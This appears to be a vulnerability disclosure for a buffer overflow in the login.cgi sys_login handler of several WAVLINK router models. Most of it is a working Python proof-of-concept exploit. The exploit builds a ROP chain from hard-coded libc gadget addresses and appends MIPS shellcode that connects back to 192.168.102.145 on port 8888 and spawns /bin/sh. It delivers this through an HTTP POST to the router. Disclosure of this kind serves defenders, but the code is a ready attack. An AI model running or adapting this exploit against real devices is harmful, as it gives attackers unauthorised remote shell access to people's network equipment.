




# Information


**Vendor of the products:** WAVLINK

**Vendor's website:** [Home and Business Networking Equipment &Wireless Audio and Video Transmission Equipment -wavlink.com](https://www.wavlink.com/en_us/index.html)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** WL-WN532A3/WL-WN576K1/QUANTUM D3G/WL-WN530HG3/QUANTUM D2G/WL-WN530G3A

**Affected firmware version:** <=V1410_240222

**Firmware download address:** [download]([Fm 532a3 - WAVLINK ROUTER Docs](https://docs.wavlink.xyz/Firmware/fm-532a3/))

# Overview

A buffer overflow vulnerability has been found in the WavLink routers WL-WN532A3/WL-WN576K1/QUANTUM D3G/WL-WN530HG3/QUANTUM D2G/WL-WN530G3A. An attacker can send a specific HTTP POST packet to the sys_login function of login.cgi, which can cause a buffer overflow and even unauthorized arbitrary command execution.


# Vulnerability details

There is an overflow here that may be exploitable

WL-WN532A3



WL-WN576K1



QUANTUM D3G/WL-WN530HG3/QUANTUM D2G/WL-WN530G3A




# POC

```py
import requests
from gt import *
import sys
con("mips")

libwebutil_base=0x77fa9000  
libc_base =  0x77eff000  


system = libc_base + 0x598E0
pp = libc_base + 0xE8B8 #a0
pp1 = libc_base + 0x59344 #v0
pp2 = libc_base + 0x0599D8 #a1
pp3 = libc_base + 0x59934 #a2
do_system = libwebutil_base + 0x6798 
gp = libwebutil_base + 0x37060 + 0x7f90
payload = b"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaei"


shellcode = asm('''
    slti $a0, $zero, 0xFFFF
    li $v0, 4006
    syscall 0x42424

    li $t4, 0xFFFFFFFD
    not $a0, $t4
    li $v0, 4006
    syscall 0x42424
 
    li $t4, 0xFFFFFFFD
    not $a0, $t4
    not $a1, $t4
    slti $a2, $zero, 0xFFFF
    li $v0, 4183
    syscall 0x42424
 
    andi $a0, $v0, 0xFFFF
    li $v0, 4041
    syscall 0x42424
    li $v0, 4041
    syscall 0x42424
 
    lui $a1, 0xB821 # Port: 8888
    ori $a1, 0xFF01
    addi $a1, $a1, 0x0101
    sw $a1, -8($sp)
 
    li $a1, 0x9166a8c0 # IP: 192.168.102.145
    sw $a1, -4($sp)
    addi $a1, $sp, -8
 
    li $t4, 0xFFFFFFEF
    not $a2, $t4
    li $v0, 4170
    syscall 0x42424
 
    lui $t0, 0x6962
    ori $t0, $t0,0x2f2f
    sw $t0, -20($sp)
 
    lui $t0, 0x6873
    ori $t0, 0x2f6e
    sw $t0, -16($sp)
 
    slti $a3, $zero, 0xFFFF
    sw $a3, -12($sp)
    sw $a3, -4($sp)
 
    addi $a0, $sp, -20
    addi $t0, $sp, -20
    sw $t0, -8($sp)
    addi $a1, $sp, -8
 
    addiu $sp, $sp, -20
 
    slti $a2, $zero, 0xFFFF
    li $v0, 4011
    syscall 0x42424
''')


payload+=p32(system)+b"b"*8
# payload+=p32(rop)+b"c"*40+p32(gp)+cmd
payload+= p32(pp) +b"c"*0x2c + p32(0x7fff6270) 
payload += shellcode

Head = {'Referer': 'wifi.wavlink.com'}
url = "http://192.168.102.143/cgi-bin/login.cgi"
Data = {"page":"login","login_page":payload,"newUI":"1","username":"admin","langChange":"0","password":"9da20c4ae944c8e1240deda4a50399ca","ipaddr":"192.168.102.1","homepage":"main.shtml","hostname":"192.168.102.143","key":"M89112664","lang_select":"0"}

response = requests.post(url,headers=Head,data=Data)

print(response.text)
print(response)
```

